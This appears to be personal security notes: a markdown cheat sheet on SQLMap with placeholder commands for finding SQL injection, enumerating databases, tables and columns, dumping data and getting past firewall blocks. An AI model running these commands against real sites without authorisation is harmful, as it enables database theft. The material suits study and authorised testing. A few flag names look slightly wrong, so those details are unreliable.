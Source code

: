 ```yaml
---
tags:
  - security
  - sqli
  - web
title: Fully Automated Tool (SQLMap)
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


````bash
sqlmap -hh # Extended Help
````

#### Check site for Vulnerability

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

#### Retrieve DB Names

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

#### All Tables from DB

````bash
sqlmap -u <URL> -D <db-name> --tables
````

#### Columns from Table

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

#### View Data from Column

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

#### SQLMapFlags

`-u URL`: Target URL  
`--level=5`: Through Scan - Default : 1  
`--risk=3`: Risk Level - Default : 1  
`-r filename`: Provide the request file  
`--random-agent`: Request blocked by firewall  
`--dump`: Exploit Vulnerability Save result to file

`--string "string"`: String present on result page on successful query (Required from Blind Injection)  
`--dbms=dbms-name`: Pass Database Type (MySQL, PostgreSQL, etc.)

`--technique` : BEUSTQ  
`B`: Boolean-based blind  
`E`: Error-based  
`U`: Union query-based  
`S`: Stacked queries  
`T`: Time-based blind  
`Q`: Inline queries
